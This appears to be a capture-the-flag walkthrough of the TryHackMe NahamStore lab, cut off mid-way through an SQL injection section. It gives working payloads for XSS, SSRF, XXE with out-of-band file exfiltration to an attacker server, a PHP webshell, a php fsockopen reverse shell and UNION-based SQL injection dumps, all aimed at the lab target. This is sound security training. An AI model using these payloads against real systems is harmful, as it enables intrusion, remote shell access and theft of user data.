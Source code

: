 # 77 - NahamStore

Room Link --> [https://tryhackme.com/room/nahamstore](https://tryhackme.com/room/nahamstore)

When enumerating subdomains you should perform it against the `nahamstore.thm`  domain.

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.176.114 -p- -T4 -sV

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
```
{% endcode %}

### Sub-Domain Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm" -fw 125

www
shop
marketing
stock
```
{% endcode %}

#### Gobuster dir enum (port 80)

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak -b 404,403

/search
/login
/register
/uploads
/staff
/css
/js
/returns
/logout
/basket
```
{% endcode %}

`stock.nahamstore.thm` .

THere is an endpoint here `/product` .

<figure><img src=".gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

`marketing.nahamstore.thm` .

<figure><img src=".gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

## Task 4 - XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
# dir enum for marketing.nahamstore.thm
gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak,zip -b 404,403 --no-error -t 200 -ic
```
{% endcode %}

<figure><img src=".gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

So i tried the `error` parameter and found the XSS endopoint.

[http://marketing.nahamstore.thm/?error=\<script>alert("XSS")\</script](http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert\(%22XSS%22\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

_First Let us add the product to the basket._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*vzP2Ek1DLPk427nvzVP_9w.png" alt="" height="272" width="700"><figcaption><p><em><strong>Click the add to basket</strong></em></p></figcaption></figure>

_Now click the **item**:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*o-mk-PruWW-Lp3cmyx8vzg.png" alt="" height="264" width="700"><figcaption><p><em><strong>Click the item</strong></em></p></figcaption></figure>

_On the item page if you did not add any address add it by clicking the **green color button**. As I have added an address so I am directly clicking the **blue button**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*0ER9c5egRjrc9W5cCfvc0g.png" alt="" height="269" width="700"><figcaption><p><em><strong>The item page</strong></em></p></figcaption></figure>

_After clicking the blue button. I have gone to the **/basket** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*_op1_okBPbqb8CmwizhhsQ.png" alt="" height="303" width="700"><figcaption><p><em><strong>The basket page</strong></em></p></figcaption></figure>

Add credit card details and make payment: `1234123412341234` .

We can see our `User-Agent` info there.

<figure><img src=".gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Putting an XSS payload in the `User-Agent` field works.

Use burpsuite to intercept the request, then change the "User-Agent" field to an XSS payload.

<figure><img src=".gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

And it worked.

<figure><img src=".gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape <a href="#html-tag-escape" id="html-tag-escape"></a>

_Let us enter a product. I have chosen the second one. I have add it to the **basket** and then went to the item page. After that, I clicked on the item and came to the below page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XoMEByX85TSjBvEXz7Rouw.png" alt="" height="307" width="700"><figcaption></figcaption></figure>

_We see the URL: **http://nahamstore.thm/product?id=1\&name=Hoodie+++Tee**_

_Now let's try to change the data of the **name** parameter and put a random string. I have written name=abc. Command: **http://nahamstore.thm/product?id=1\&name=dking**_

<figure><img src=".gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

_Here we can see that we have changed the data of the **name** parameter but **nothing change occurs on the page**. So let us visit the **view page source**._

<figure><img src=".gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

We can escape from the `<title>` tag and run our payload. Intercept with burpsuite.

`http://nahamstore.thm/product?id=1&name=</title><script>alert("HTML Escape")</script>` .

<figure><img src=".gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

### JS Variable Escape

In the main page, search for a product "love"

<figure><img src=".gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can see the search term `love` appeared in a Javascript script. We can escape the `search` variable and get XSS using this payload.

`love';alert("JS Escape"); //` .

And we got XSS

<figure><img src=".gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

### Hidden Parameter

Hidden parameter in Homepage is `q` .

<figure><img src=".gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape

In the `return` page there is a `<textarea>` tag that we can escape to get XSS.

<figure><img src=".gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Using this payload we get another XSS

`Large size </textarea><script>alert("RETURN Escape")</script>` .

<figure><img src=".gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

### Non-existing Endpoint

_Let us visit any URL which is not on the website. For example **http://nahamstore.thm/product**_

_The **URL** redirected us to the below page._

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Doing this gives us XSS

[http://nahamstore.thm/\<script>alert(123)\</script](http://nahamstore.thm/%3Cscript%3Ealert\(123\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Hidden Param

_Visit one of the product pages:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*P3k4xVczxY4o5AYDtG5Nvg.png" alt="" height="309" width="700"><figcaption><p><strong>The page</strong></p></figcaption></figure>

_Just write something in the **discount** box and press the **Add to Basket** button._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*EZs1FwNsYR__3hj2i8x2lw.png" alt="" height="192" width="700"><figcaption><p><strong>After writing in the discount box</strong></p></figcaption></figure>

_See that you cannot see anything in the **discount** box whatever you wrote._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*c5GQg_xz36KXcYkqPVFYyg.png" alt="" height="287" width="700"><figcaption><p><strong>Nothing is shown</strong></p></figcaption></figure>

_Let us go to the **page source** and see nothing is written in the **value**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*9I19LB4msMUTOeIrJWkRFg.png" alt="" height="289" width="700"><figcaption><p><strong>The view source</strong></p></figcaption></figure>

_Nothing is written in the **value** parameter._

_Let us make a little bit of a change in the URL. let us make the **discount** variable **GET** method instead of the **POST** method. Command: **http://nahamstore.thm/product?id=1\&added=1\&discount=12345**_

_After the change see that the web page is showing the input of the **discount** you gave._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*8cYl51h30nXYYiGgeF6fLg.png" alt="" height="284" width="700"><figcaption><p><strong>The discount value is showing</strong></p></figcaption></figure>

_Let us go to the **page source** and see the value written in the **value parameter** of the **discount** box._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*ycAz2e1cD7uq3fQOd1hYkw.png" alt="" height="284" width="700"><figcaption><p><strong>The design code</strong></p></figcaption></figure>

_Now run the payload and let us make some changes in the design. Command : **http://nahamstore.thm/product?id=1\&added=1\&discount=12345" onmouseover=alert(document.cookie);//”**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*DAyBY7JVZ3eSHV3AMosaeQ.png" alt="" height="191" width="700"><figcaption><p><strong>The payload works</strong></p></figcaption></figure>

## Open Redirect

[https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters](https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

### Parameter 1

Fuzzing using ffuf:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/?FUZZ=http://10.18.88.214' -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fs 4254

r
```
{% endcode %}

[http://nahamstore.thm/?r=http://10.18.88.214](http://nahamstore.thm/?r=http://10.18.88.214)

[http://nahamstore.thm/?r=https://google.com](http://nahamstore.thm/?r=https://google.com)

We get redirected to my local web server. Workw with "google.com" too.

### Parameter 2

_Let us recon on the URL: **http://nahamstore.thm/account/**_

_Command: **dirsearch -u http://nahamstore.thm/account/ -w /usr/share/wordlists/dirBuster\_list/directory-list-2.3-medium.txt**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3WAfeVXR6Tq0wF3DdYILyA.png" alt="" height="217" width="700"><figcaption><p><strong>The recon</strong></p></figcaption></figure>

_This recon redirects us to and URL: **/login?redirect\_url=**_

_Let us visit the URL: **http://nahamstore.thm/login?redirect\_url=**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*m_cs_qHSgIdoVsig82nTLg.png" alt="" height="308" width="700"><figcaption><p><strong>The login page</strong></p></figcaption></figure>

_Now let us log in to the account of our own. But before that let us do this to the URL: **http://nahamstore.thm/login?redirect\_url=https://google.com** and then press the **login** with providing **email and password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*qYqb2I2OVugL2vmhCEAMNg.png" alt="" height="306" width="700"><figcaption><p><strong>On the login page</strong></p></figcaption></figure>

_Let us log in. During login, it **redirected** me to the **Google website**. :_

<figure><img src="https://miro.medium.com/v2/1*0o8ncwhSLSyF06_PXV3Mzw.png" alt="" width="700"><figcaption><p><strong>The redirected website</strong></p></figcaption></figure>

Answer is --> `redirect_url` .

## CSRF

_Let us go to **Accounts->Settings.**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*zrtnNj4I2fasbOVgIyKOgA.png" alt="" height="275" width="700"><figcaption><p><strong>The setting page.</strong></p></figcaption></figure>

_Let us start **intercept on** the button of the **burp suite**._

_Now, let us visit the **Change Email** option and catch its traffic._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*IUvKIAt4pYPdmzilVjt61Q.png" alt="" height="306" width="700"><figcaption><p><strong>The traffic of change email.</strong></p></figcaption></figure>

_Let us forward the **traffic** and see where it goes. It took us to the **/settings/email** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Q0EVPlABf8YTBuagPxYiKA.png" alt="" height="302" width="700"><figcaption><p><strong>The setting page</strong></p></figcaption></figure>

_Now click the **Change Email** and catch its traffic in the **burp suite**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3epWpO6152U3MhO0hgHjYA.png" alt="" height="311" width="700"><figcaption><p><strong>The traffic of the /settings/email</strong></p></figcaption></figure>

_So this page is not the answer._

_Let us visit the second option **Change Password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*YQvUECp7up4ZBgYDDq4Xdg.png" alt="" height="285" width="700"><figcaption><p><strong>The /settings/password page</strong></p></figcaption></figure>

_Let us click the **Change Password** option and catch its traffic in the **burp suite** and see it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XJOIEWDHr3c_2hDPuLVahg.png" alt="" height="313" width="700"><figcaption><p><strong>There is no csrf token</strong></p></figcaption></figure>

_So this URL is the answer._ [_http://nahamstore.thm/account/settings/password_](http://nahamstore.thm/account/settings/password)

_**What field can be removed to defeat the CSRF protection**_

On the [email change page](http://nahamstore.thm/account/settings/email) there is a CSRF protection (hidden input field with an anti-CSRF token).

```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE1EUXdNREkySW4wPSIsInNpZ25hdHVyZSI6IjQyZWY1OWJlNTM2YTcxOTU5ZDQ0OGJmODc1N2Q1NDZhIn0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="noraj@noraj.fr" ></div>
    <div style="margin-top:7px">
        <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

<figure><img src=".gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Providing a wrong value will fail but removing the parameter will bypass the protection.

_Answer: **csrf\_protect**_

<figure><img src=".gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

It is encoded in `base64` .

## IDOR

_First, let us add something to the **Shopping basket** And then **add an address**._

On Burp Intercept, then click on the Address you just added.

<figure><img src=".gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

So just edit the `address_id` parameter to any number and you dump address details of other users.

<figure><img src=".gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

To exploit the second IDOR, you need to:

1. place and complete an order
2. go to the order page and select it
3. click on the `PDF Receipt` button

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*VXiMooDsTUYjUu2XoGf2zw.png" alt="" height="307" width="700"><figcaption><p><strong>The /account/orders/9 page</strong></p></figcaption></figure>

_Now let us on the **burp suite** and on the button **intercept on**._

_Now let us press the button **PDF Recept** and catch the **live traffic** of the page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xW-tgXPo-7q2Li82JlZAmA.png" alt="" height="308" width="700"><figcaption><p><strong>The order receipt traffic</strong></p></figcaption></figure>

_Now let us change the **id** parameter to **3** and **forward** it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xJPXIynUouRYKf9rRlOmaA.png" alt="" height="316" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_Here we see that the **order id** does not match the **user\_id.** So let us add the **user\_id** parameter in the traffic. Command: **what=order\&id=3\&user\_id=3**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*oXCjDf24AHjx5680Inq4EQ.png" alt="" height="312" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_It did not work. So let us use some other techniques. Command: **what=order\&id=3%26user\_id=3**_

The idea was to URL encode it `&` sign so that `3&user_id=3` becomes the value of `id`.

<figure><img src=".gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Answer --> Order Date: `22/02/2021 11:42:13` .

## LFI

Add an item to the basket.

Turn on burpsuite intruder, then Clilck the item:

<figure><img src=".gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

_Now let us click the **forward** button_.

_When the bellow request will be shown send it to the **repeater**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*UtVnskI6x3hwKI5YX1nTCg.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

`/....//....//....//....//....//lfi/flag.txt` - This payload worked

<figure><img src=".gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

## SSRF

There is a _Check stock_ button on the product page.

<figure><img src=".gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>

Catch it in Burp Intercept and forward  to Repeater.

<figure><img src=".gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

The `server` parameter value seems to be a domain name.

But if we put another value, we have an error about the bad server name so we must keep `stock.nahamstore.thm` and still find a way to bypass it.

With `server=stock.nahamstore.thm@127.0.0.1` we have a 404 for page

<figure><img src=".gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

But with `server=stock.nahamstore.thm@127.0.0.1#` we are hitting the home page.

<figure><img src=".gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Let's try to discover an internal sub-domain:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /opt/SecLists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'

internal-api
```
{% endcode %}

We found one `internal-api.nahamstore.thm`

`server=stock.nahamstore.thm@internal-api.nahamstore.thm#` .

<figure><img src=".gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

We found an endpoint --> `/orders` .

```
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

Checking it out.

<figure><img src=".gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

```json
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "\/orders\/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "\/orders\/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "\/orders\/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```

We can check every order.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/4dbc51716426d49f524e10d4437a5f5a#` .

<figure><img src=".gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We are seeing full details for other users.&#x20;

Checking 2nd order id.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#` .

<figure><img src=".gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

```json
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11\/2023",
      "CVV2": "223"
    }
  }
}
```

## XXE

_Let us visit the subdomain: **stock.nahamstore.thm**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*icpEcXSigmrC7mohvBHvEA.png" alt="" height="280" width="700"><figcaption><p><strong>The main page</strong></p></figcaption></figure>

_Let us visit the page **/product**. Command : **stock.nahamstore.thm/product**_

<figure><img src=".gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*My4ti-9W04d-cC97HlXiNQ.png" alt="" height="307" width="700"><figcaption><p><strong>In the burp repeater</strong></p></figcaption></figure>

_Let us change the request method from **GET** to **POST**._

<figure><img src=".gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

Now we FUZZ for allowed parameters on the Product, using `/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt` wordlist.

We see that the `xml` parameter returns.

<figure><img src=".gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

_Now let us copy the **XML** code from the **response** and paste it into the **request**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Bym1Dx0kFCVdaPxq51-DXQ.png" alt="" height="309" width="700"><figcaption><p><strong>After pasting</strong></p></figcaption></figure>

_Now let us **send** the request again._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*PNwIxGBYBJ_yTP6ST0aSEA.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

_**X-Token** is not present._

The error suggest we did not provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

{% code overflow="wrap" %}
```xml
// Some code# send this as request
<?xml version="1.0"?>
	<data>
	<X-Token>
d31ng
</X-Token>
	</data>l
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Since the value we provided is reflected, the first thing that come to mind is to perform an XXE attack.

We can read the /etc/passwd file with this payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

<figure><img src=".gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Reading the 1st flag with:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

### Blind XXE / OOB XXE

There is a page that let us upload xlsx files: [http://nahamstore.thm/staff](http://nahamstore.thm/staff)

But what is an XLSX? Just a zip with XML files inside. So if value are extracted from it there is a chance for XXE.

We can consult PayloadsAllTheThings for [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) & [XLSX](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file) payloads (OOB because the values are not reflected).

First I created a spreadsheet file with LibreOffice Calc (`xxe.xlsx`).

Let's extract the ZIP:

```bash
# extract the xxe.xlsx file into a dir XXE.
7z x -oXXE xxe.xlsx
```

<figure><img src=".gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

I added the OOB XXE payload inside `xl/workbook.xml`.

{% code title="workbook.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.88.214:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlforma>

```
{% endcode %}

Let's rebuild the spreadsheet:

```bash
# updates the xxe.xlsx file.
7z u ../xxe.xlsx *
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files.

{% code title="xxe.dtd" overflow="wrap" %}
```xml
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.9.19.77:2121/%d;'>"> 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

All the files are set.

Start the FTP + HTTP server:

```bash
python3 -m http.server 8000
```

Download [xxeftp](https://github.com/staaldraad/xxeserv) you have to compile it with `GO` --> "go build xxeftp.go"

```bash
xxeftp  -o files.log -p 2121 -w -wd public -wp 8000
```

Upload the `xxe.xlsx` file.

<figure><img src=".gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Immediately our FTP and HTTP server should receive the `/flag.txt` file.

<figure><img src=".gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ cat files.log                                                                          
USER:  anonymous
PASS:  anonymous
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
SIZE
MDTM
USER:  anonymous
PASS:  anonymous
SIZE
PASV
```
{% endcode %}

Decode the base64 --> `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`&#x20;

Outpur --> {d6b22cb3e37bef32d800105b11107d8f}

## RCE

### 1st RCE Flag / PHP webshell

Enumerating port 8000.

{% code overflow="wrap" %}
```
gobuster dir -u http://nahamstore.thm:8000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

admin
```
{% endcode %}

<figure><img src=".gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

[http://nahamstore.thm:8000/admin/login](http://nahamstore.thm:8000/admin/login)

We can login with `admin : admin`&#x20;

<figure><img src=".gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

This is  the same dashboard at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

Here the admin panel allows us to modify the templates of the page displayed at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

I replaced the description paragraph with a simple webshell:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Then it's easy to execute a command:&#x20;

[http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id](http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id)

<figure><img src=".gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

### 2nd Flag / Blind RCE

We already found an IDOR in the `user_id` param of the PDF generator function (PDF Receipt) but there is also a RCE in the `id` one.

_In the **id** parameter we will use this payload :_&#x20;

{% code overflow="wrap" %}
```bash
$(php -r '$sock=fsockopen("10.18.88.214",9000);exec("/bin/sh -i <&3 >&3 2>&3");')
```
{% endcode %}

_We will encode it to the URL_

<figure><img src=".gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

_Our payload request will be:_

{% code overflow="wrap" %}
```
what=order&id=4%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%38%2e%38%38%2e%32%31%34%22%2c%39%30%30%30%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29
```
{% endcode %}

Setup nc listener, use burpsuite intercept to intercept the traffic then modify the value of `id` and we get shell.

<figure><img src=".gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>

From here we can read `/etc/hosts` and find some useful domains for the recon section.

{% code title="/etc/hosts" %}
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.4      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm
```
{% endcode %}

## SQLI

### In-band

By entering an invalid ID for the product, I got an error message for MySQL out of it.

[http://nahamstore.thm/product?id=1'](http://nahamstore.thm/product?id=1%27)

<figure><img src=".gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

#### No of Columns

Playing around i see there are 5 columns there.

```sql
1099 UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

#### DB Version

```sql
1099 UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```

<figure><img src=".gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

#### DBs / Schemas

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL,NULL FROM information_schema.SCHEMATA-- -

# information_schema,nahamstore
```
{% endcode %}

#### Tables

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL,NULL FROM information_schema.tables WHERE table_schema="nahamstore"-- -

# product,sqli_one
```
{% endcode %}

#### Columns

{% code overflow="wrap" %}
```sql
# columns for "sqli_one" table.
1099 UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_name="sqli_one"-- -

# flag,id
```
{% endcode %}

#### Dump Data

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(flag,id),NULL,NULL,NULL FROM nahamstore.sqli_one-- -

{d890234e20be48ff96a2f9caab0de55c}1
```
{% endcode %}

### Inferential SQLi <a href="#inferential-sqli" id="inferential-sqli"></a>

The second one is pretty hard to identify. It happens in the `/return` request:

The easiest way to exploit it will be to save the request to a file and pass it to sqlmap.

<figure><img src=".gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

{% code title="req.txt" %}
```
POST /returns HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86688607116737285133964723420
Content-Length: 419
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/returns
Cookie: token=da26c04730a46d6acdae6f7236802d6e; session=981b443ffdb368f8f31f9c4591fd020c
Upgrade-Insecure-Requests: 1

-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="order_number"

1
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_reason"

2
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_info"

Hell
